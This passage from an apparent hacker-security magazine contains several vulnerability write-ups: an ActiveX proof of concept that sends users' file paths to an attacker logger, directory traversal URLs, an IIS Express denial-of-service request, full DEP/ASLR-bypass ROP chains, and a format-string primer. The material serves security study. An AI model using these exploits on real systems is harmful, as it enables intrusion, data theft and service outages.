至于获取支付密码和淘宝登录密码，原理是一样的。由于涉及很多原因，我就不再深入测试下去了。都是存在相同漏洞，希望官方尽快修补此漏洞！（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VB
- 关键词：XSS，ActiveX，GetOpenFileNameEx

## 杀回金山毒霸的坎坷


图/文 爱无言

金山毒霸可以说是现在人手必备的杀毒软件，自从免费加开发模式改变以来，我周围的同事们都对它赞不绝口。除此以外，很多同事还喜欢利用金山毒霸的在线杀毒功能来保证爱机的安全。面对这样一款优秀的杀毒软件，我们在为其欣喜的时候，也不能不注意它自身的安全性，毕竟安全软件的目的就是为了防范恶意攻击。

无意中，我发现金山毒霸提供的在线杀毒功能所使用的 ActiveX 控件存在一个安全隐患，可以借助该控件来欺骗用户，甚至是诱使用户主动泄漏自己的系统信息。金山毒霸提供的在线杀毒功能向系统注册了两个 ActiveX 控件，都存在该安全隐患。下面，我们就其中一个 ActiveX 控件为例，看看这个漏洞是怎么被发现和利用的。

凡是使用了金山毒霸提供的在线杀毒功能的用户，都会被安装上金山毒霸在线杀毒控件。这其中有一个 ActiveX 控件的名称为：kxerqs10.dll。它的文件位置在“C:\Program Files\Kingsoft\kolscan”下，如图 1 所示。


图 1

该控件提供了两个函数，即 GetOpenFileNameEx 和 GetOpenFileNameEx2。从名字上我们可以看出，这两个函数都是用来打开文件的。我们暂时理解为金山毒霸的在线杀毒功能利用该控件来实现打开用户系统上的文件或者文件夹。

我们首先来对比看一看 GetOpenFileNameEx 和 GetOpenFileNameEx2 两个函数的原型，如下：

```vb
Function GetOpenFileNameEx (
    ByVal bNotUseDefaultView As Boolean,
    ByVal bstrCaption As String,
    ByVal bstrSubtitle As String,
    ByVal colorDialog As Long
) As String

Function GetOpenFileNameEx2 (
    ByVal bNotUseDefaultView As Boolean,
    ByVal bstrCaption As String,
    ByVal bstrSubtitle As String,
    ByVal colorDialog As Long,
    ByVal nX As Variant,
    ByVal nY As Variant,
    ByVal bRelativeParent As Boolean,
    ByVal nReserved As Variant
) As String
```

从上面的原型可以看出，GetOpenFileNameEx2 比 GetOpenFileNameEx 函数多了四个参数，其中有两个是控制位置的参数，即 nX 和 nY（其实这两个参数在后面的欺骗中也可以起到一定作用，读者可以自行分析思考一下）。除此之外，两个函数的差别并不大。

既然这样，我们这里选择 GetOpenFileNameEx2 函数来做一个测试，看一看 GetOpenFileNameEx2 函数是如何工作的。测试代码如下：

```html
<object
classid="clsid:EF69644E-8492-457A-87DC-15C3AE822E79"
name="evil"></object>
<script>
var a=evil.GetOpenFileNameEx2(1," ","",0,100,100,0,0);
document.write(a);
</script>
```

保存上述代码为 poc.htm，将其放置在本地搭建的 IIS 目录下面，用浏览器访问效果如图 2 所示。


图 2

在打开 poc.htm 网页后，浏览器弹出了一个文件选择对话框，上面显示着一段话“请选择扫描路径：”，这就证明了我们前面的猜想，GetOpenFileNameEx2 函数确实是金山毒霸在线杀毒功能提供的用来打开用户系统上文件的函数。我们这里随意选择了两个文件后，点击“确定”按钮，此时浏览器显示出了新的内容，如图 3 所示。

此刻，浏览器竟然显示出了我们前面选择的两个文件的真实路径。请大家注意，浏览器显示的内容是具有一定格式的，细细分析起来，原来 GetOpenFileNameEx2 函数在等待用户选择好被查杀的文件后，会将被选择文件的真实路径组合成为一个固定格式，其后将该格式数据传递给杀毒软件内部，从而开始进行在线杀毒。


图 3

一个思路，可不可以利用金山毒霸的这个功能来获取用户系统上的敏感信息呢？具体地说，就是借助金山毒霸的这个功能来远程获取用户系统上有哪些文件以及这些文件的路径。

要想实现这个目的，我们需要分两步来实现。第一步就是构造一个带有欺骗性质的文件选择对话框，诱使用户自己主动选择爱机上的文件。也许金山毒霸在编写这个功能的时候，确实没有考虑仔细，我们完全可以制造出一个带有欺骗性质的文件选择对话框，并且它还是金山毒霸提供的。不信，请大家仔细往下看，我们现在来修改上面的测试代码，如下：

```html
<object
classid="clsid:EE69644E-8492-457A-87DC-15C3AE822E79"
name="evil"></object>
<script>
var a=evil.GetOpenFileNameEx2(1,"金山毒霸在线杀毒功能","请选择您要查杀的文件",0,100,100,0,0);
document.write(a);
</script>
```

这一次，我们修改了 GetOpenFileNameEx2 函数的第 2 和第 3 个参数的值，这两个参数分别可以控制文件选择对话框的标题栏内容和对话框内容，效果如图 4 所示。


图 4

图 4 中我们看到原本图 2 中文件对话框空白的标题栏现在出现了“金山毒霸在线杀毒功能”几个字眼，而原先的“请选择扫描路径：”也被我们修改成为“请选择你要查杀的文件”。相信一般的用户一看到图 4 这个对话框的时候，一定以为是金山毒霸在线杀毒功能被启动了，就会自觉地选择自己爱机上的文件，并且去点击“确定”按钮。

既然第一步欺骗实现了，那么第二步就是要在等待用户点击“确定”后，将 GetOpenFileNameEx2 函数的值发送到攻击者的服务器上。要想获取到用户点击“确定”按钮后 GetOpenFileNameEx2 函数返回的值，可以借助 XSS 的方法，打开一个新的窗口来提交函数返回值，即像下面这样写代码：

```html
<object
classid="clsid:EE69644E-8492-457A-87DC-15C3AE822E79"
name="evil"></object>
<script>
var a=evil.GetOpenFileNameEx2(1,"金山毒霸在线杀毒功能","请选择你要查杀的文件",0,100,100,0,0);
window.open("http://127.0.0.1/xss.asp?xss="+encodeURIComponent(a)+"");
</script>
```

xss.asp 文件是一个用来记录用户提交过来的信息的文件。当用户被我们的文件对话框欺骗后，他一旦选择好被查杀的文件并点击“确定”按钮，GetOpenFileNameEx2 函数的返回值 a 就会立即被提交给攻击者的服务器。此刻，xss.asp 文件就可以立即将 a 的值记录下来，从而实现远程获取用户系统上的文件信息。下面就是我们记录下来的一次欺骗攻击成功后，用户系统上的文件信息：

```text
{result:{paths:["C:\\Documents and Settings\\Administrator\\桌面\\115 优蛋.lnk", "C:\\Documents and Settings\\Administrator\\桌面\\新建 文本文档 (2).txt", "C:\\Documents and Settings\\Administrator\\桌面\\Close Monitor.exe.lnk", "C:\\Documents and Settings\\Administrator\\桌面\\HprSnap6.exe.lnk"],count:4}}
```

仅仅是我们的一个思路，竟然使得金山毒霸成为攻击者用来欺骗用户的帮凶，这就是安全漏洞挖掘的灵活性。

上面这个漏洞得以成功被利用的关键在于，金山毒霸的人员在开发控件时，第一没有考虑到控件使用的范围，应该尽可能地小；第二，函数本身应该严谨，不该提供的参数就固定化。前面，我们就是利用了两个参数来修改文件选择对话框的标题和内容的，这是很危险的；第三，没有使用校验机制。控件应该在返回用户选择文件的信息时进行加密处理，从而保护用户信息不被泄露。安全软件的编写应该十分谨慎，多一道防范就给用户多一道安全保证。

最后，上面的这个漏洞其实从本质上还不能被定义为严格的安全漏洞，只是被巧妙地利用了。大家可以依此类推，扩展自己的思路来研究软件安全。本文旨在讨论技术，希望读者不要借助本文讲述的技术来做任何违法事情，笔者与杂志社概不负责。

前置知识：无

关键词：跨越目录访问，Remote Files Server

## 揭秘 Remote Files Server
### 文件信息泄露漏洞

图/文 凌无言


长期以来，我发现国外的编程人员很喜欢开发一些在互联网上共享文件的小软件，这也可能是来自于国外人倡导的分享精神所致。今天，我们文章的主角就是一个来自国外的互联网文件分享软件“Remote Files Server”，其使用界面如图 1 所示。


图 1

我们测试的“Remote Files Server”是其 2.6.0 版本，开发者是 SMRKsoft。在使用“Remote Files Server”的时候，首先，除了配置“Remote Files Server”工作的服务器 IP 地址、端口号之类的基本信息，我们还需要建立新用户。用鼠标双击图 1 中的“Accounts...”图标，在出现的新对话框中，我们可以建立一个新的用户，同时需要给该用户分配一个可以被共享的文件目录，如图 2 所示。

图 2 下方的“Add folder...”图标就是用来给新用户添加被共享文件目录的。我们这里为了测试，建立了一个名为“test”的用户，其共享目录为“F:\愤怒的小鸟（PC版）”。如图 3 所示。


图 2


图 3

建立好测试用户，我们就可以双击图 1 中的“Start Server”按钮，启动文件共享服务。注意这里，“Remote Files Server”采用了两种访问共享文件目录的方法，一种是 HTTP 形式，即用浏览器访问；另外一种是采用 FTP 模式来访问共享文件目录。

现在，我们打开浏览器输入“Remote Files Server”的服务器 IP 地址加端口号，这里是“http://192.168.1.10:88”，如图 4 所示。


图 4

当我们试图访问“Remote Files Server”的时候，该程序首先会要求我们用设置好的用户名和密码登录系统，这个用户名和密码就是前面我们在图 2 设置的那个用户信息。于是，我们使用“test”用户名和密码登录系统。成功登录系统后的效果如图 5 所示。


图 5

此时，我们看到了用户“test”共享出来的文件目录，即前面我们设置的“F:\愤怒的小鸟（PC 版）”。这个时候，我们注意到图 5 浏览器地址栏中的 URL 地址非常有意思，它的格式类似这样：“http://服务器IP地址加端口号/change_folder?被共享的文件目录全名”。URL 地址最后部分的“被共享的文件目录全名”这个部分作为一个参数传递给“change_folder”程序来处理，那么如果我们修改了这个部分，是不是意味着“change_folder”程序会打开我们指定的文件目录呢？最简单的测试办法就是利用“../”符号来打开“被共享的文件目录”的上级目录，所以，我们可以修改 URL 地址为这样“http://服务器IP地址加端口号/change_folder?U3T/../../../../../../”。

在浏览器中访问上面修改后的 URL 地址，我们有了惊人的发现，如图 6 所示。


图 6

看到图 6 显示的内容，我想此刻大家都明白了，我们已经成功越过限制，访问到了“被共享的文件目录”以外的内容。同样，我们在 FTP 模式下也能够实现跨目录访问，这里我们利用 LeapFTP 程序来实现。在利用该程序成功登录“Remote Files Server”后，LeapFTP 程序提供了一个使用 FTP 原始命令的功能，如图 7 所示。


图 7

```text
cd ../../../../../../
```

我们在“原始命令”窗口输入命令“cd ../../../../../../”，并将其下方的两个选项打勾，点击“确定”按钮后，LeapFTP 程序访问到了“被共享的文件目录”以外的内容，如图 8 所示。


图 8

前置知识：IIS

关键词：ASP，拒绝服务


## 白发微软 IIS 7.5 Express 拒绝服务漏洞

图/文 爱无言

发现微软的这个漏洞纯属于巧合，我是在测试一款国内开发的 Web Server 程序时无意发现的。被测试的 Web Server 程序名为“方配网站服务器 v2.0”，如图 1 所示。


图 2

在默认情况下，“方配网站服务器 v2.0”在其 Web 目录“C:\Program Files\FangPage\FPWebServer\sites\wwwroot”下放置了一个“index.aspx”文件，该文件可以用来查看当前系统的一些基本信息。此时，我们有了一个念头，众所周知，老版本的 IIS 存在着多个文件名解析漏洞，如名字中包含“asp”字眼的文件夹会被当做 asp 类型解析，包含有“;”字眼的文件也会被错误地当做已知文件类型来解析。除此之外，还包括 80sec 发现的源代码泄露漏洞等等。很多漏洞都是与文件或者文件夹的名称相关，那么对于 IIS 7.5 Express 是不是也存在这样的问题呢？


图 1

在测试的时候，我们在网站本地目录下放置了一个名为“1.1”的文件，然后在浏览器中访问“http://localhost/1.1”这个网址，效果如图 2 所示。

从图 2 浏览器上方显示的信息我们看到，原来“方配网站服务器 v2.0”程序是借助微软的 IIS 7.5 Express 程序开发的。

抱着这样的思路，我们开始了第一个测试。在 Web 服务中，“#”符号常常被当做特殊字符来处理，例如一个网址中“1.asp#”，其实就等效于“1.asp”文件。但是，如果我们在 Web 服务的本地目录下先建立一个名为“1.asp#”的文件，然后再在浏览器中请求这个文件，Web 服务程序会如何处理呢？在这之前，我们在浏览器中请求“1.asp#”文件时，必须将“#”符号编码为“%23”，不然就不会正确请求到“1.asp#”文件，如图 3 所示。


图 3

通过测试，我们发现对于 IIS 7.5 Express 来说，在 Web 本地目录下是否存在带有“#”符号的文件，以及通过浏览器请求这些文件，似乎都不会影响 IIS 7.5 Express 程序的正常运行，难道是我们想多了？可是接下来的测试，我们有了一个惊人的发现。

在 Web 本地目录下，我们放置一个名为“1.aspx#”的文件，该文件中的代码可以很简单。然后，我们打开任务管理器，注意其中“iisexpress.exe”进程的 CPU 占用率，为什么要注意这个，待一会你就知道答案了。

打开浏览器，在其中输入网址“http://localhost/1.aspx%23”，回车后，请注意观察任务管理器中“iisexpress.exe”进程的 CPU 占用率。你会发现，此刻“iisexpress.exe”进程的 CPU 占用率一下子上升到了近 50%，如图 4 所示。


图 4


图 5

如果我们此刻在浏览器中再请求访问一次“http://localhost/1.aspx%23”这个网址，你就会发现你的系统已经开始反应缓慢，因为“iisexpress.exe”进程的 CPU 占用率已经快 100% 了，如图 5 所示。

毫无疑问，当前的 IIS 7.5 Express 已经不能够再正常工作了，一个典型的拒绝服务漏洞被我们发现了。

上面的测试，我们是在 XP SP3 系统下进行的，其他版本的操作系统我们没有进行测试，有兴趣的朋友可以自行测试一下。在发现上述安全漏洞之后，我们单独下载了微软的 IIS 7.5 Express，在默认安装下，我们测试发现上述拒绝服务漏洞依旧存在。该漏洞在某些特定的场合下，可以被恶意攻击者利用来对 Web 服务器进行攻击，造成服务器瘫痪。分析上述漏洞形成的原因，应该是因为程序陷入了对“#”符号进行分离后解析文件类型的死循环当中。

最后，本文旨在讨论安全技术，读者请勿使用文中讲述的漏洞进行任何违法活动，笔者与杂志社概不负责。

前置知识：py

关键词：msvcr71.dll，mona.py，DEP


## 利用 msvcr71.dll 与 mona.py
### 实现通用绕过 DEP/ASLR

文 Corelan Team（corelanc0d3r） 译 后志

#### 说明

最近几周，有许多关于利用 msvcr71.dll 中 ROP gadgets（译者注：gadgets 小代码）实现通用绕过 DEP/ASLR 的方法，事实上甚至已经有集成了这类功能的 exploit 程序被提交给 Metasploit 来获取奖金了。

### 白磷版本

作为白磷漏洞包发布的一部分，这段代码仅仅使用了 msvcr71.dll 中的 gadgets 和指向 VirtualProtect 函数的指针。这个版本的 dll 没有基于 ASLR，因此这是一个可以用来实现通用绕过 DEP 和 ASLR 的完美候选者；此外它还包含了生成 ROP 程序的所有 gadgets。

如果目标应用程序加载了该版本的 dll（或者可以让它强制加载），我们就可以使用 ROP chain 来实现绕过 DEP 和 ASLR 的通用方法。

Immunity 公司在他们的网站上公布了绕过技巧，主要代码如下：

```python
def wp_sayonaraASLRDEPbypass(size=1000):
    # White Phosphorus
    # Sayonara Universal ASLR + DEP bypass for Windows [2003/XP/Vista/7]
    # This technique uses msvcr71.dll which has shipped unchanged
    # in the Java Runtime Environment since v1.6.0_0
    # December 2006
    # mail: support@whitephosphorus.org
    # sales: http://www.immunityinc.com/products-whitephosphorus.shtml
    print "WP> Building Sayonara - Universal ASLR and DEP bypass"
    size += 4
    depBypass = pack('<L', 0x7C344CC1)  # pop eax; ret;
    ...
```

```python
depBypass += pack('<L', 0x7C3410C2) # pop ecx; pop ecx; ret;
depBypass += pack('<L', 0x7C342462) # xor chain; call eax {0x7C3410C2}
depBypass += pack('<L', 0x7C38C510) # writeable location for pOldProtect
depBypass += pack('<L', 0x7C365645) # pop esi; ret;
depBypass += pack('<L', 0x7C345243) # ret;
depBypass += pack('<L', 0x7C348F46) # pop ebp; ret;
depBypass += pack('<L', 0x7C3487E0) # call eax
depBypass += pack('<L', 0x7C344CC1) # pop eax; ret;
depBypass += pack('<i', -size)       # {size}
depBypass += pack('<L', 0x7C34D749) # neg eax; ret;
...
return depBypass
```

受 Metasploit 奖金事件的触动，以及 Abysssec 几个小时前（译者注：2011/07/03）发表的一个类似文档，同时由于 Immunity 已经发布了代码，我决定自己再研究一下，看看能不能从 msvcr71.dll 中找到其他能够绕过 DEP/ASLR 的代码。

### 另一种版本（mona.py）

我用 Immunity Debugger 调试一个加载了这个 dll 的...应用程序，利用 `mona.py` 脚本创建一个拥有 ROP gadgets 的数据库，并且生成一个 ROP chain。因为在白磷版本中没有 `nul` 字节，所以可以尝试做同样的事。

结果如下：  
输入命令：`!mona rop -m msvcr71.dll -n`  
17 秒后，结果如下：

```python
rop_gadgets =
[
    0x7c346c0a,  # POP EAX # RETN (msvcr71.dll)
    0x7c37a140,  # <- *&VirtualProtect()
    0x7c3530ea,  # MOV EAX,DWORD PTR DS:[EAX] # RETN (msvcr71.dll)
    0x???????,   # find routine to move virtualprotect() into esi
    # Hint: look for mov [esp+offset],eax and pop esi
    0x7c376402,  # POP EBP # RETN (msvcr71.dll)
    0x7c345c30,  # ptr to 'push esp # ret'
    0x7c346c0a,  # POP EAX # RETN (msvcr71.dll)
    0xffffffff,  # value to negate, target value: 0x00000201
    0x7c351e05,  # NEG EAX # RETN (msvcr71.dll)
    0x7c354901,  # POP EBX # RETN (msvcr71.dll)
    0xffffffff,  # pop value into ebx
    0x7c345255,  # INC EBX # FPATAN # RETN (msvcr71.dll)
    0x7c352174,  # ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN
    0x7c34d201,  # POP ECX # RETN (msvcr71.dll)
    0x7c38b001,  # RW pointer (lpOldProtect)
    0x7c34b8d7,  # POP EDI # RETN (msvcr71.dll)
    0x7c34b8d8,  # ROP NOP
    0x7c344f87,  # POP EDX # RETN (msvcr71.dll)
    0xffffffc0,  # value to negate, target value: 0x00000040
    0x7c351eb1,  # NEG EDX # RETN
    0x7c346c0a,  # POP EAX # RETN
    0x90909090,  # NOPS
    0x7c378c81,  # PUSHAD # ADD AL,0EF # RETN
]
```

很有趣，`mona.py` 脚本利用 `msvcr71.dll` 中的 gadgets 和指针生成了一个几乎完整的 ROP chain。

虽然看上去比 Immunity 写的稍微大了点，但是仅仅是想尝试一下是否还有另一种可利用方式。

`mona` 脚本生成的里面唯一缺少的就是一行将 `VirtualProtect()` 函数指针（在 EAX 中）放入 ESI 的指令。

`mona.py` 脚本没有发现明显的 gadgets 能够实现“mov esi, eax”，因此我们不得不手动来查找一个。

但是正如 `mona.py` 提示的，只需要寻找一个 gadget 能够将 EAX 中的值放到栈上，因为之后可以从 ESI 中获得它。

为了做到这一点，我们还需要 2 到 3 条 gadgets：一个是获得栈指针；另一个将值写入栈；还有一个则是取出其值（pop esi）。

在仔细寻找了生成的 `rop.txt` 文件后，成功地找到了下面 2 个 gadget 能实现这一点：

`0x7c37591f : # PUSH ESP # ADD EAX,DWORD PTR DS:[EAX] # ADD CH,BL # INC EBP # OR AL,59 # POP ECX # POP EBP # RETN`

和

`0x7c376069 : # MOV DWORD PTR DS:[ECX+1C],EAX # POP EDI # POP ESI # POP EBX # RETN`

应该可以实现。

使用这两个 gadgets，我们只需要将指向 `VirtualProtect()` 函数的指针写到栈上，并最终存储到 ESI 中。事实上，第二个 gadget 将会在同一 gadget 中完成写入和读取。我们只需要保证 ECX 指向正确的栈上的位置，并能保证 `pop esi` 指令能够在那个位置获得取值。

值得注意的是，第一个 gadget 需要 EAX 包含一个合法的指向可读区域的指针，因此我们要使它可读的办法是从 `msvcr71.dll` 中弹出一个可读的地址放到 EAX 中。

整合之后，chain 如下：

```python
rop_gadgets =
[
    0x7c346c0a,  # POP EAX # RETN (MSVCR71.dll)
    0x7c37a140,  # Make EAX readable
    0x7c37591f,  # PUSH ESP ... # POP ECX # POP EBP # RETN
    0x41414141,  # EBP (filler)
    0x7c346c0a,  # POP EAX # RETN
    0x7c37a140,  # <- *&VirtualProtect()
    0x7c3530ea,  # MOV EAX,DWORD PTR DS:[EAX] # RETN
    0x7c346c0b,  # Slide
    0x7c376069,  # MOV [ECX+1C],EAX # POP EDI # POP ESI # POP EBX # RETN
    0x41414141,  # EDI filler
    0x41414141,  # will be patched at runtime (VP), then picked up into ESI
    0x41414141,  # EBX filler
    0x7c376402,  # POP EBP # RETN
    0x7c345c30,  # ptr to push esp # ret
    0x7c346c0a,  # POP EAX # RETN
    0xfffffdff,  # size 0x00000201 -> ebx
    0x7c351e05,  # NEG EAX # RETN
    0x7c354901,  # POP EBX # RETN
    0xffffffff,  # pop value into ebx
    0x7c345255,  # INC EBX # FPATAN # RETN
    0x7c352174,  # ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN
    0x7c34d201,  # POP ECX # RETN
    0x7c38b001,  # RW pointer (lpOldProtect) (-> ecx)
    0x7c34b8d7,  # POP EDI # RETN (MSVCR71.dll)
    0x7c34b8d8,  # ROP NOP (-> edi)
    0x7c344f87,  # POP EDX # RETN (MSVCR71.dll)
    0xffffffff,  # value to negate, target value: 0x00000040, target: edx
    0x7c351eb1,  # NEG EDX # RETN (MSVCR71.dll)
    0x7c346c0a,  # POP EAX # RETN (MSVCR71.dll)
    0x90909090,  # NOPS (-> eax)
    0x7c378c81,  # PUSHAD # ADD AL,0EF # RETN (MSVCR71.dll)
    # rop chain generated with mona.py
].pack("V*")
```

共 31 个双字，比白磷的商业版多了 9 个双字。但是这证明了我的观点，而且只花费了我不到 10 分钟的时间便能建立起这个通用的、可以绕过 DEP 和 ASLR 的链。

顺便说一下，如果你不知道，也许有坏字节（假设你需要避免使用 `\x0a` 和 `\x0d`），那么你可以运行如下命令：`!mona rop -m msvcr71.dll -cpb '\x0a\x0d'`，以及获取其他指针，其实这些很简单。

### 总结

不管结果看上去多么完美，或者结果多么肯定，它终究会有其他的办法能实现这种结果。本文就是验证了这个观点（译者注：该文 Immunity Debugger 需要在 1.83 版本上调试，`mona.py` 是 corelan 组织最新发布的一个可以替代并且功能远强于 `pvefindaddr` 的脚本，`mona.py` 脚本已放在附件中，Immunity 1.83 可在此处获得，现在汉化版为 4TUhttp://bbs.pediy.com/showthread.php?t=136903U4T）。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：MemoryWatcher、Chrome、浏览器

## 打造程序卫士之 MemoryWatcher


图/文 腾衰

大家在使用 Chrome 浏览器的时候，只要在地址栏输入 `about:memory`，便可以详细地查看浏览器中各种元素的内存使用情况。现在我们就来研究并实现这个功能，如图 1 所示。

在 Chrome 的代码中，我们可以看到一个叫 `memory_watcher` 的工具，这便是关键所在了。`memory_watcher` 中定义了 `MemoryWatcher` 类，初始化代码如下：


```cpp
MemoryWatcher::MemoryWatcher()
  : file_(NULL),
    hooked_(false),
    active_thread_id_(0) {
  MemoryHook::Initialize();
  CallStack::Initialize();
  block_map_ = new CallStackMap();
  // Register last - only after we're ready for notifications!
  Hook();
}
```

从代码中我们可以清楚地发现，监视内存使用用的是 Hook 技术。我们接着再来看看 `MemoryHook` 是如何实现的。在 `MemoryHook::Hook` 中，我们看到它 Hook 了几乎所有的内存分配函数：

```cpp
bool MemoryHook::Hook() {
    DCHECK(!hooked_);
    if (!hooked_) {
        DCHECK(global_hook_);
        // Luckily, Patch() doesn't call malloc or windows alloc routines
        // itself -- though it does call new (we can use PatchWithStub to
        // get around that, and will need to if we need to patch new).
        HMODULE hkernel32 = ::GetModuleHandle(L"kernel32");
        CHECK(hkernel32 != NULL);
        HMODULE hntdll = ::GetModuleHandle(L"ntdll");
        CHECK(hntdll != NULL);
        // Now that we've found all the functions, patch them
        INSTALL_PATCH(HeapCreate);
        INSTALL_PATCH(HeapDestroy);
        INSTALL_PATCH(HeapAlloc);
        INSTALL_PATCH(HeapReAlloc);
        INSTALL_PATCH(HeapFree);
        INSTALL_PATCH(VirtualAllocEx);
        INSTALL_PATCH(VirtualFreeEx);
        INSTALL_PATCH(MapViewOfFileEx);
        INSTALL_PATCH(MapViewOfFile);
        INSTALL_PATCH(UnmapViewOfFile);
        INSTALL_NTDLL_PATCH(NtUnmapViewOfSection);
        INSTALL_PATCH(GlobalAlloc);
        INSTALL_PATCH(GlobalReAlloc);
        INSTALL_PATCH(GlobalFree);
        INSTALL_PATCH(LocalAlloc);
        INSTALL_PATCH(LocalReAlloc);
        INSTALL_PATCH(LocalFree);
        // We are finally completely hooked.
        hooked_ = true;
    }
    return true;
}
```

为了简化代码，这些操作都是使用宏来完成的。有趣的是，为了使操作变得简单，Chrome 将分配内存的可修改大小的标志都去掉了，在使用 `LocalReAlloc` 的时候重新分配了内存，并将原来的数据拷贝回去，这样就大大地减轻了内存分配管理的不确定因素。

```cpp
static HLOCAL WINAPI Perftools_LocalAlloc(UINT uFlags, SIZE_T dwBytes) {
    // LocalAlloc is built atop HeapAlloc anyway. So we don't track these.
    // LocalAlloc will internally call into HeapAlloc and we track there.
    // Force all memory to be fixed.
    uFlags &= ~LMEM_MOVEABLE;
    HLOCAL rv = patch_LocalAlloc()(uFlags, dwBytes);
    return rv;
}

static HLOCAL WINAPI Perftools_LocalReAlloc(HLOCAL hMem, SIZE_T dwBytes, UINT uFlags) {
    // LocalDiscard is a macro which calls LocalReAlloc with size 0.
    if (dwBytes == 0) {
        return patch_LocalReAlloc()(hMem, dwBytes, uFlags);
    }
}
```

```cpp
HGLOBAL rv = Perftools_LocalAlloc(uFlags, dwBytes);
if (hMem != 0) {
    size_t size = LocalSize(hMem);
    if (size > dwBytes)
        size = dwBytes;
    // Note: size could be 0; HeapAlloc does allocate 0 length buffers.
    memcpy(rv, hMem, size);
    Perftools_LocalFree(hMem);
}
return rv;
}
```

最终，Chrome 将所有的内存分配与释放集中到这 2 个函数，其中过滤了自己内部的一些内存操作，否则可能带来死循环而导致程序崩溃：

```cpp
void MemoryHook::OnTrack(HANDLE heap, int32 id, int32 size) {
    // Don't notify about allocations to our internal heap.
    if (heap == heap_)
        return;
    if (watcher_)
        watcher_->OnTrack(heap, id, size);
}

void MemoryHook::OnUntrack(HANDLE heap, int32 id, int32 size) {
    // Don't notify about allocations to our internal heap.
    if (heap == heap_)
        return;
    if (watcher_)
        watcher_->OnUntrack(heap, id, size);
}
```

现在我们来看看 Chrome 中记录数据的类 `StatsCounter`，同时 `StatsCounter` 使用共享内存的方式来获得数据内存：

```cpp
int* StatsCounter::GetPtr() {
    StatsTable* table = StatsTable::current();
    if (!table)
        return NULL;

    // If counter_id_ is -1, then we haven't looked it up yet.
    if (counter_id_ == -1) {
        counter_id_ = table->FindCounter(name_);
        if (table->GetSlot() == 0) {
            if (!table->RegisterThread("")) {
                // There is no room for this thread. This thread cannot use counters.
                counter_id_ = 0;
                return NULL;
            }
        }
    }

    // If counter_id_ is > 0, then we have a valid counter.
    if (counter_id_ > 0)
        return table->GetLocation(counter_id_, table->GetSlot());

    // counter_id_ was zero, which means the table is full.
    return NULL;
}
```

我们自己的程序中并不需要这种共享内存的方式来获得内存，因此，笔者去掉了从共享内存获取内存地址指针的方式，直接使用变量：```cpp
int* StatsCounter::GetPtr() {
    // We don't use Shared Memory in our single process.
    return &ptr_data_;
}
```

```cpp
StopBackgroundThread();
CloseBackgroundFrm();
std::cout << std::endl;
return 0;
}
```

这样做可以大大简化我们的代码。同时，我们如果稍加修改 StatsCounter 类，还可以获得不同线程占用的内存量，并且实时监控。

接下来我们便可以开始移植代码了。在对原来代码进行一些小小的修改后，我们去掉了许多不需要的代码。同时为了方便测试，创建了一个监视窗口，每秒刷新一次，在控制台中操作内存分配与释放：

效果如图 2 所示。

```cpp
int _tmain(int argc, _TCHAR* argv[])
{
    CreateMemoryWatcher();
    CreateBackgroundThread();
    CreateBackgroundFrm();
    g_memory_watcher->SetLogName("memwatcher");
    //g_memory_watcher->DumpLeaks();
    char szData[128];
    void *p = NULL;
    while (true)
    {
        std::cin.getline(szData, 128);
        if (strcmp(szData, "exit") == 0)
            break;
        else if (strcmp(szData, "free") == 0)
            free(p);
        else if (strcmp(szData, "dump") == 0)
            SetEvent(g_dump_event);
        else
        {
            int size = atoi(szData);
            if (size > 0)
                p = malloc(size);
        }
    }
    DeleteMemoryWatcher();
}


```
图 2

方便的内存使用记录查看可以使我们的程序更具有专业性和实用性，在很大程度上可以方便用户对程序的操作和管理等。同样也可以使用这种方法来给我们的程序添加一个内存查看工具。由于有详细的内存分配和释放记录，这样不仅方便了用户，同时还可以帮助开发者解决一些内存泄漏问题，并为调试程序带来了很多方便之处。希望读者们看完本文后能够有一些启发，激发更多新的创意，度过愉快的一天。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：字符串，攻击，Format

## Format String 攻击再谈
图/文 CrazyRabbit

从 Windows XP SP2 开始，包括 Windows Vista 和 Win7 都开始使用 CRT（C/C++ Runtime Libraries），而 CRT 禁止了 printf 等 format string 函数的 %n 控制符。

另外，glibc 的 FORTIFY_SOURCE 补丁也提供了相应的防护机制。本文将不会涉及当下随着 iPhone 一起火起来的 Objective-C。

很多人已经不认为 format string 是一种很危险的攻击了，而只是会导致信息泄漏的一种漏洞。Format String 攻击的好处在于其不仅提供了读的能力，同时也提供了写的能力。它是帮助完成渗透攻击的一种辅助工具。

在 2000 年左右的时候，几乎每个人都在发掘 format string 漏洞。似乎当时什么软件都有这种漏洞。大家可以搜索一下著名黑客组织 TESO（2004 年起已经不再活跃）的文章。CORE SDI S.A. 公司也发现了很多 locale 相关的漏洞（http://www.securityfocus.com/bid/1634）。当然，现在那些漏洞都已经是很遥远的事情了。

可是，在 2010 年初的时候，一个名叫 Ronald Volgers 的人发现了一个有趣的漏洞：Ubuntu 和 Debian 上 CUPS lppasswd 中的一个 setuid 漏洞。该漏洞可以让攻击者获得 root 权限，又是一个 Locale 漏洞。

不过，不幸的是，前面提到的补丁已经使得 format string 攻击的实现变得几乎不可能。基本上，FORTIFY_SOURCE 实现了如下两种方法来对抗 format string：

- 包含 %n 控制符的 format string 将被置于内存中不可写的区域。
- 当使用位置参数时，区域内的参数都要被使用。也就是说，如果要使用 %7$x，我们必须同时也使用 1、2、…、6。

幸运的是，FORTIFY_SOURCE 补丁并不是完全实现了（哈哈，这是因为 glibc 的代码实在是非常非常诡异、难懂。虽然 glibc 实现了非常重要的功能，但它真的是非常难读的代码）。接下来我们将读的代码比写一个 format string 难些，但是比写 glibc 本身要容易点。在进一步阅读本文前，读者最好知道什么是 format string。

### Glibc 中的 FORTIFY_SOURCE

那么该补丁该如何使用呢？在编译的时候，需要使用“-D_FORTIFY_SOURCE=2”并使用 -O2 级别的优化。因此，我们将得到如下结果：

```
0x08048509 <+57>: mov    %ebx,0x4(%esp)
0x0804850d <+61>: movl   $0x1,(%esp)
0x08048514 <+68>: call   0x80483c4 <__printf_chk@plt>
```

首先，编译后的程序中，对于 printf 等的调用被转到 *__chk，并且 flag 的第一个参数被设置为 1（第二行），如图 1 所示。

```c
int __printf_chk (int flag, const char *format, ...)
{
    va_list ap;
    int done;
    _IO_acquire_lock_clear_flags2 (stdout);
    if (flag > 0) stdout->_flags2 |= _IO_FLAGS2_FORTIFY;
